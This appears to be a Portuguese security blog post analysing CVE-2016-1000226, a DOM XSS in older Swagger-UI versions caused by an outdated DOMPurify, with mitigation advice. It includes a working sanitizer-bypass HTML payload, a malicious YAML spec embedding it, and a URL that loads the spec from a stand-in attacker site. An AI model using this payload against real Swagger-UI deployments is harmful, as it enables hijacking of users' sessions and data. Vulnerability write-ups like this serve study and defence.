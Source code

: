 ```yaml
---
layout: post
title: "Análise da CVE-2016-1000226: XSS no  Swagger-UI"
date: 2024-11-06
---
```


A [CVE-2016-1000226](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1000226)\[1\] se trata de uma vulnerabilidade de [cross-site scripting (XSS)](https://portswigger.net/web-security/cross-site-scripting)\[2\] no [Swagger-UI](https://swagger.io/tools/swagger-ui/)\[3\]. A vulnerabilidade foi divulgada em 21 de julho de 2016 e afeta as versões anteriores à **2.2.2** do **Swagger-UI**. A vulnerabilidade permite que um atacante injete scripts maliciosos nos parâmetros de entrada de uma determinada API e na geração de seus documentos JSON Swagger.

Essa publicação está disponível também em: [Inglês](https://blog.lesis.lat/blog/CVE-2016-1000226-EN/)

---

**O que é o Swagger-UI?**

O Swagger-UI é uma ferramenta de código aberto utilizada para exibir especificações de uma API em uma interface gráfica amigável para desenvolvedores. É amplamente empregado para gerenciar, documentar e testar APIs, graças à sua facilidade de visualizar e interagir com APIs RESTfuls diretamente no navegador. 

Essa ferramenta funciona a partir do documento Swagger, que descreve a API, usando sua biblioteca JavaScript para processar e renderizar o conteúdo graficamente na tela

---

**Vulnerabilidade**

Embora o histórico de vulnerabilidades XSS do Swagger-UI seja considerável, todas as vulnerabilidades anteriores exigiam interação do usuário para que os ataques fossem bem-sucedidos. No entanto, a atual vulnerabilidade refere-se a um DOM XSS que não requer essa interação. Como a vulnerabilidade é controlada por parâmetros de consulta, um atacante pode explorá-la sem necessidade de interação do usuário.

Essa falha se deve ao uso de uma versão desatualizada da biblioteca [DOMPurify](https://github.com/cure53/DOMPurify)\[4\] em versões do Swagger-UI anteriores à 2.2.2, que impede a sanitização adequada dos parâmetros de entrada fornecidos pelo usuário. 

---

**Como a UI do Swagger renderiza as especificações da API?**

O processo inicia com a criação de um documento Swagger (OpenAPI Specification), que define a estrutura da API, incluindo endpoints, métodos, parâmetros e outras informações relevantes sobre a API. Esse documento é geralmente escrito no formato YAML ou JSON.

Em seguida, ao acessar o Swagger-UI no navegador e fornecer a URL ou arquivo contendo o documento Swagger, a interface inicia o processo de carregamento do documento. Esse carregamento pode ser realizado pela URL da API, onde o documento Swagger está hospedado, ou por upload direto do arquivo. 

Vamos focar na função que permite o carregamento de um documento Swagger por meio de uma URL, o que pode ser feito de duas maneiras:

* ?url=https://host/spec.yaml  
* ?configUrl=https://host/file.json

Em seguida, o Swagger busca as configurações JSON ou especificações de API YAML e, então, processa e renderiza o conteúdo no navegador do usuário. Além disso, ele interpreta qualquer campo de descrição da especificação de API como um [Markdown](https://pt.wikipedia.org/wiki/Markdown)\[5\].

Exemplo de como as especificações [YAML](https://pt.wikipedia.org/wiki/YAML)\[6\] são estruturadas:

```yml
swagger: '2.0'  
 info:  
   title: Example yaml.spec  
   description: This is an example text \*\*HELLO FROM MARKDOWN\*\*  
 paths:  
   /accounts:  
     get:  
       responses:  
         '200':  
           description: No response was specified  
       tags:  
         \- accounts  
       operationId: findAccounts  
       summary: Finds all accounts
```

Função auxiliar que usada para renderizar *Markdown* na UI do Swagger:

// src/components/providers/markdown.jsx
```javascript
 function Markdown({ source, className \= "", getConfigs }) {  
   ... omitted ...

   const md \= new Remarkable({  
     html: true,  
     typographer: true,  
     breaks: true,  
     linkTarget: "\_blank"  
   }).use(linkify)

   md.core.ruler.disable(\["replacements", "smartquotes"\])

   const { useUnsafeMarkdown } \= getConfigs()  
   const html \= md.render(source)  
   const sanitized \= sanitizer(html, { useUnsafeMarkdown })

   if (\!source || \!html || \!sanitized) {  
     return null  
   }

   return (  
     \<div className={cx(className, "markdown")} dangerouslySetInnerHTML={{ \_\_html: sanitized }}\>\</div\>  
   )  
 }
```

A função *sanitizer* utiliza o *DOMPurify* para sanitizar a *string* fornecida, com uma configuração adicional que proíbe explicitamente a tag \<style\> do HTML.  
No entanto, existe uma maneira de contornar essa restrição, usando as tags \<textarea\> e \<title\> que podem "simular" o comportamento da tag \<style\>. Esse método funciona porque, as tags \<textarea\> e \<title\> permitem inserir CSS em um atributo HTML, papel semelhante ao que a tag \<style\> teria no bypass. Assim, esse comportamento é aproveitado para injetar código CSS que executa JavaScript. 

A biblioteca *DOMPurify* utiliza pelo Swagger-UI não impede explicitamente o uso de CSS em atributos HTML, permitindo o seguinte bypass:

```html
\<math\>\<mtext\>\<option\>\<FAKEFAKE\>\<option\>\</option\>\<mglyph\>\<svg\>\<mtext\>\<textarea\>\<a title="\</textarea\>\<img src='\#' onerror='alert(1)'\>"\>
```

---

**Exploração**

A exploração parte do princípio que o Swagger processa qualquer campo de descrição da especificação de API como um *Markdown*. Assim, basta inserir o bypass mencionado no seguinte payload:

```yml
swagger: '2.0'  
 info:  
   title: Example yaml.spec  
   description: |  
     \<math\>\<mtext\>\<option\>\<FAKEFAKE\>\<option\>\</option\>\<mglyph\>\<svg\>\<mtext\>\<textarea\>\<a title="\</textarea\>\<img src='\#' onerror='alert(document.domain)'\>"\>  
 paths:  
   /accounts:  
     get:  
       responses:  
         '200':  
           description: No response was specified  
       tags:  
         \- accounts  
       operationId: findAccounts  
      summary: Finds all accounts
```

Com o payload malicioso criado, basta carregar o arquivo YAML de especificações na URL da aplicação vulnerável:

https://site-vulneravel.com/swagger-ui.html?url=https://site-malicioso.com/payload-swagger-ui.yml

Evidência do payload sendo triggado:

![](/assets/img/CVE-2016-1000226.png)

---

**Impacto**

A exploração bem-sucedida dessa vulnerabilidade pode ter diversos impactos negativos, incluindo:

* Roubo de cookies e sessões de usuário, permitindo que um invasor assuma a identidade do usuário e acesse informações confidenciais.  
* Exposição de informações sensíveis, como senhas, dados de pagamento ou outras informações pessoais.  
* Acesso a serviços e funcionalidades privilegiadas, possibilitando que um invasor execute ações maliciosas em nome do usuário.

---

**Mitigação**

A vulnerabilidade XSS afeta versões do Swagger-UI anteriores à 2.2.2. Caso esteja utilizando uma versão anterior à 2.2.2, recomenda-se atualizar para a versão mais recente. Se a atualização completa do pacote não for possível, considere atualizar apenas o DOM Purify para uma versão superior à 2.2.2.

---

**Conclusão**

O problema central está na versão desatualizada da biblioteca DOMPurify, usada para sanitizar parâmetros de entrada do usuário. A exploração ocorre durante o processamento do documento Swagger, que pode conter código malicioso, especialmente nas descrições da especificação da API, onde o Swagger-UI interpreta o conteúdo como *Markdown*.

Os impactos potenciais de uma exploração bem-sucedida incluem o roubo de cookies e sessões de usuário, exposição de informações sensíveis e acesso a serviços privilegiados em nome do usuário da vítima.

A mitigação recomendada é atualizar o Swagger-UI para a versão 2.2.2 ou superior, ou, caso a atualização completa do pacote não seja possível, atualizar apenas o DOMPurify para uma versão superior à 2.2.2 é recomendado.

---

**Referências**

* \[1\] [Mitre \- CVE-2016-1000226](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1000226)  
* \[2\] [PortSwigger \- Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)  
* \[3\] [SwaggerUI \- Visualize and interact with the API’s resources](https://swagger.io/tools/swagger-ui/)  
* \[4\] [DOMPurify \- DOM-only, super-fast, Uber-tolerant XSS sanitizer](https://github.com/cure53/DOMPurify)  
* \[5\] [Wikipedia \- Markdown](https://pt.wikipedia.org/wiki/Markdown)  
* \[6\] [Wikipedia \- YAML](https://pt.wikipedia.org/wiki/YAML)
